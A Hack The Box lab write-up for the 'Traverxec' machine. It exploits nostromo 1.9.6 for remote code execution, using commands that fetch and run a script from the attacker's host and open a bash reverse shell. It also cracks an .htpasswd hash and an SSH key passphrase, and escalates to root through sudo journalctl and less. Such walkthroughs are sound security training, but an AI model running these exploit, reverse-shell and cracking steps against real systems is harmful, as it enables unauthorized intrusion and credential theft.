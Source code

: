 ```yaml
---
path: "/htb-traverxec"
title: "Hack The Box - Traverxec"
date: "04/17/2020"
featuredImage: ../../images/traverxec.png
---
```


You start off by doing a nmap scan to see what ports are opened. This will give you an idea of what you could potentially exploit.

## NMAP Scan

```
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not
...
```
At this time there is not much that can be done we with the port 22. More recon needs to be done. Looking up nostromo, you can find that version 1.9.6 is [vulnerble](https://www.exploit-db.com/exploits/47837) to Remote Code Execution (RCE). The readily avaialble exploit comes in the form of a python script (There is a Metasploit module also avialable). To run the script, a hostname, port and command must be supplied. You could leverage this to get a shell into the box but I decide to just issue a command to grab a [linux enumeration script](https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh) and run it. (This script was hosted locally).

```
python nostromo_exploit.py 10.10.10.165 80 "cd /var/nostromo/logs/ && wget http://10.10.14.31:8000/lse.sh.1 && chmod u+x lse.sh.1 && ./lse.sh.1"
```

The output is quite long but the one thing that stands out.
```

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    




HTTP/1.1 200 OK
Date: Thu, 05 Mar 2020 07:21:53 GMT
Server: nostromo 1.9.6
Connection: close
...
===============================================================( software )=====
...
[!] sof040 Found any .htpasswd files?...................................... yes!
---
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
---
...
==================================( FINISHED )==================================
```

We now have a username and potential password. From the looks of the hash this is md5crypt. You verify this running 
`hashcat --example-hashes` and searching for the pattern `$1$`

```
hashcat -m 500 -a 0 ./pass.txt /usr/share/wordlists/rockyou.txt --force --show
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
```

To do more recon establish a shell on box 
`python nostromo_exploit.py 10.10.10.165 80 "nohup bash -c 'bash -i >& /dev/tcp/10.10.14.93/1337 0>&1'"`

From within the box you can locate the nostromo configuration file. This file specifies the options for [HOMEDIRS](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd#HOMEDIRS). This specifies the home directory for nostromo. 

`/var/nostromo/conf/`

The `homedirs_public` option is a publicly accessible folder. You cannot access the `~david/` but you can access `~david/public_www`.
The content of the directory is as follows
```
drwxr-xr-x 2 david david 4096 Oct 25 17:02 protected-file-area

./protected-file-area:
total 16
drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
-rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www$
```

The backup file contains the following
```
./home:
total 12
drwxr-xr-x 3 root root 4096 Mar  5 19:10 .
drwxr-xr-x 3 root root 4096 Mar  5 20:26 ..
drwxr-xr-x 3 root root 4096 Mar  5 19:10 david

./home/david:
total 12
drwxr-xr-x 3 root root 4096 Mar  5 19:10 .
drwxr-xr-x 3 root root 4096 Mar  5 19:10 ..
drwx------ 2 1000 1000 4096 Oct 25 17:02 .ssh

./home/david/.ssh:
total 20
drwx------ 2 1000 1000 4096 Oct 25 17:02 .
drwxr-xr-x 3 root root 4096 Mar  5 19:10 ..
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 authorized_keys
-rw------- 1 1000 1000 1766 Oct 25 17:02 id_rsa
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 id_rsa.pub
```

The public key is password protectec but can be cracked with `JohnTheRipper`

```
oot@kali:~/HTB/Traverxec# john --wordlist=/usr/share/wordlists/rockyou.txt david.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-03-05 19:23) 0.3154g/s 4524Kp/s 4524Kc/s 4524KC/sa6_123..*7¡Vamos!
Session completed
```

With this you can ssh as david and get the user flag.
```
root@kali:~/HTB/Traverxec/home/david# ssh david@10.10.10.165 -i .ssh/id_rsa 
Enter passphrase for key '.ssh/id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sat Apr 18 00:43:51 2020 from 10.10.14.93
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ 
```

For the root flag, start from the bin directory in the david home directory. The file `server-stats.sh` contains a line that executes a sudo command.

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

You can use [journalctl](https://gtfobins.github.io/gtfobins/journalctl/#sudo) to escalate privilege to root.

The following command is to be execute with the window smaller than usual to have the output piped to less. From less you can then execute a shell.
`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

from within less 
`!/bin/sh`

Output
```
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2020-04-18 01:33:
Apr 18 01:33:59 traverxec nhttpd[442]:
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
nostromo_1.9.6-1.deb  root.txt
```




